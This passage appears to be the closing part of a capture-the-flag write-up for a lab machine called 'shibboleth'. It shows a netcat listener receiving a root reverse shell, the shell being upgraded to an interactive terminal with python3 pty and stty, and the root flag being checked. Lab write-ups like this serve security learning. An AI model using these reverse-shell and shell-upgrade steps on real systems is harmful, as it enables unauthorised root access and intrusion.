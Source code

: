 This results in a reverse shell on our listener as root and we can add the flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.255.116.
Ncat: Connection from 10.129.255.116:54742.
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@shibboleth:/var/lib/mysql# export TERM=xterm
export TERM=xterm
root@shibboleth:/var/lib/mysql# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@shibboleth:/var/lib/mysql# id
uid=0(root) gid=0(root) groups=0(root)
root@shibboleth:/var/lib/mysql# wc -c /root/root.txt
33 /root/root.txt
```
